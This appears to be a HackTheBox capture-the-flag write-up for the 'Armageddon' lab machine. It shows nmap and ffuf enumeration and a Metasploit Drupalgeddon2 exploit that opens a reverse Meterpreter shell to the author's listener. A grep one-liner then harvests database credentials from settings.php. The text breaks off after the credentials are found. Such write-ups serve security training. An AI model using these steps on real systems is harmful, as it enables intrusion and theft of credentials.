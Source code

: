 +++
title = "HackTheBox Write-up&mdash;Armageddon"
+++

This machine has IP 10.10.10.233.

Enumerate:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 17:30 NZST
Nmap scan report for armageddon (10.10.10.233)
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.43 seconds
```

I go to `http://armageddon/` and find that I need to log in or create an account.  I don't yet know what for.

We use `ffuf` to find the subdirectories open to us:
```
.htpasswd               [Status: 403, Size: 211, Words: 15, Lines: 9]
.htaccess               [Status: 403, Size: 211, Words: 15, Lines: 9]
cgi-bin/                [Status: 403, Size: 210, Words: 15, Lines: 9]
includes                [Status: 301, Size: 235, Words: 14, Lines: 8]
misc                    [Status: 301, Size: 231, Words: 14, Lines: 8]
modules                 [Status: 301, Size: 234, Words: 14, Lines: 8]
profiles                [Status: 301, Size: 235, Words: 14, Lines: 8]
robots.txt              [Status: 200, Size: 2189, Words: 158, Lines: 91]
scripts                 [Status: 301, Size: 234, Words: 14, Lines: 8]
sites                   [Status: 301, Size: 232, Words: 14, Lines: 8]
themes                  [Status: 301, Size: 233, Words: 14, Lines: 8]
```

We note that in `/scripts` we see a `password-hash.sh` file.  This is actually some PHP code.

We also have a `/robots.txt` file, which looks pretty generic.

There is so much information here, I don't know where to start!  Some of the files I have tried to access cannot be accessed from the browser, so perhaps this is not the bes way in.  Well, we see from the `nmap` scan that the server is using Drupal 7.  Let's have a look to see if there are any exploits of that.  We use `searchsploit` and see quite a few...

We set LHOST to our own `tun0` or `utun2` IP, and RHOSTS to the machine's.
```
msf6 > use exploit/unix/webapp/drupal_drupalgeddon2
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set LHOST 10.10.14.239
LHOST => 10.10.14.239

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > set RHOSTS 10.10.10.233
RHOSTS => 10.10.10.233

msf6 exploit(unix/webapp/drupal_drupalgeddon2) > run
[*] Started reverse TCP handler on 10.10.14.239:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable.
[*] Sending stage (39282 bytes) to 10.10.10.233
[*] Meterpreter session 1 opened (10.10.14.239:4444 -> 10.10.10.233:43850) at 2021-04-12 18:15:20 +1200

meterpreter>
```

However, once we run anything on here, if it is left for too long, we get an error.
```
meterpreter > ls
[-] Session manipulation failed: Too many open files
```

Promptly, we run:
```
meterpreter > ls
Listing: /var/www/html
======================
...
```

Running `shell` and then `bash -i`, we gain access to a bash shell.

I wonder if there are any user information in this directory, or any subdirectories, so I run the following:
```
find sites/ -type f | while IFS= read -r F; do [[ -z "$(grep -i "password" "$F")" ]] || (echo "\n\n-------->$line" && grep -i "password" "$F"); done
```

This takes quite a bit of filtering through, but in `sites/default/settings.php`, I find this line:
```php
'password' => 'CQHEy@9M*m23gBVj'
```

The same file actually contains a username line:
```php
'username' => 'drupaluser',
```
